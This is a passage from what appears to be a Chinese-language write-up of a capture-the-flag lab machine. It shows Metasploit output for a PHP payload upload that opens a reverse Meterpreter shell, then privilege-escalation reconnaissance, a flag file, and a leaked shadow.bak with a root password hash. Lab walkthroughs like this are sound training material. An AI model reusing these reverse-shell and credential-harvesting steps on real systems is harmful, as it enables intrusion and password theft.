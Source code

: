     [*] Started reverse TCP handler on 192.168.75.151:4444
    [*] Trying to login as bully
    [*] Trying to upload payload
    [*] Uploading payload
    [*] Calling uploaded file klccanyg.php
    [*] Sending stage (39927 bytes) to 192.168.75.172
    [+] Deleted klccanyg.php
    [*] Meterpreter session 1 opened (192.168.75.151:4444 -> 192.168.75.172:36399) at 2024-10-30 18:07:17 +0800
    
    ```
    

## 提权

1. 查看权限
    
    ```python
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ whoami
    www-data
    $ uname -a
    Linux minotaur 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux
    ```
    
2. 寻找敏感文件
    - `/tmp` 文件夹下存在`flag.txt`以及`shadow.bak`
        
        ```python
        # flag.txt
        That shadow.bak file is probably useful, hey?
        Also, you found a flag!
        My m1L|<$|-|@|<3 br1|\|G$ @11 t3h b0y$ 2 t3h y@R|)
        
        ```
        
        ```python
        # shadow.bak
        root:$6$15/OlfJP$h70tk3qikcf.kfwlGpYT7zfFg.cRzlJMlbVDSj3zCg4967ZXG0JzN/6oInrnvGf7AZaJFE2qJdBAOc/3AyeGX.:16569:0:99999:7:::
        daemon:*:16484:0:99999:7:::
        bin:*:16484:0:99999:7:::
        sys:*:16484:0:99999:7:::
        sync:*:16484:0:99999:7:::
        games:*:16484:0:99999:7:::
        man:*:16484:0:99999:7:::
        lp:*:16484:0:99999:7:::
        mail:*:16484:0:99999:7:::
        news:*:16484:0:99999:7:::
        uucp:*:16484:0:99999:7:::
        proxy:*:16484:0:99999:7:::
        www-data:*:16484:0:99999:7:::
        backup:*:16484:0:99999:7:::
        list:*:16484:0:99999:7:::
        irc:*:16484:0:99999:7:::
        gnats:*:16484:0:99999:7:::
        nobody:*:16484:0:99999:7:::
        libuuid:!:16484:0:99999:7:::
        syslog:*:16484:0:99999:7:::
        mysql:!:16569:0:99999:7:::
        messagebus:*:16569:0:99999:7:::
